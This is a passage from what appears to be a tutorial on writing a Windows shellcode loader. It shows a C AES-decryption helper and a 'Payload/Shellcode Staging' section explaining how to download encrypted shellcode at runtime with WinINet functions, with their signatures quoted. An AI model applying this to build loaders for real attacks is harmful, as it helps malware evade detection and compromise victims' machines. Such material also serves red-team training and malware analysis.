 ```c
BOOL SimpleDecryption(IN PVOID pCipherTextData, IN DWORD sCipherTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pPlainTextData, OUT DWORD* sPlainTextSize) {
    if (pCipherTextData == NULL || sCipherTextSize == NULL || pKey == NULL || pIv == NULL)
        return FALSE;

    AES Aes = {
            .pKey = pKey,
            .pIv = pIv,
            .pCipherText = pCipherTextData,
            .dwCipherSize = sCipherTextSize
    };

    if (!InstallAesDecryption(&Aes)) {
        return FALSE;
    }

    *pPlainTextData = Aes.pPlainText;
    *sPlainTextSize = Aes.dwPlainSize;

    return TRUE;
}
```

## Stage III - Payload/Shellcode Staging.
Until now we have our encryption version of our shellcode using AES and our decryption function ready. The idea is to get the encrypted shellcode during runtime instead of hardcoding it into the application. This can be done using three Windows API functions **InternetOpenW**, **InternetOpenUrlW**, and **InternetReadFile**.

### [InternetOpenW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw)
It is a function to open and initialize the handle to the internet session. It consists of five input parameters which are:          
```c
HINTERNET InternetOpenW(
  [in] LPCWSTR lpszAgent,
  [in] DWORD   dwAccessType,
  [in] LPCWSTR lpszProxy,
  [in] LPCWSTR lpszProxyBypass,
  [in] DWORD   dwFlags
);
```
The parameters **lpszAgent** is used to define the user agent in the HTTP protocol. Similarly, **dwAccessType** parameter is used to define what sort of access is required. The parameters **lpszProxy** and **lpszProxyBypass** are used if we need to set up a proxy or bypass the proxy and the parameter **dwFlags** is used to determine whether to make the network request or gain the entities from the cache. 

### [InternetOpenUrlW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw)
InternetOpenUrlW function is used to get the handle to the shellcode specified by the HTTP URL. It consists of six parameters:    
```c
HINTERNET InternetOpenUrlW(
  [in] HINTERNET hInternet,
  [in] LPCWSTR   lpszUrl,
  [in] LPCWSTR   lpszHeaders,
  [in] DWORD     dwHeadersLength,
  [in] DWORD     dwFlags,
  [in] DWORD_PTR dwContext
);
```

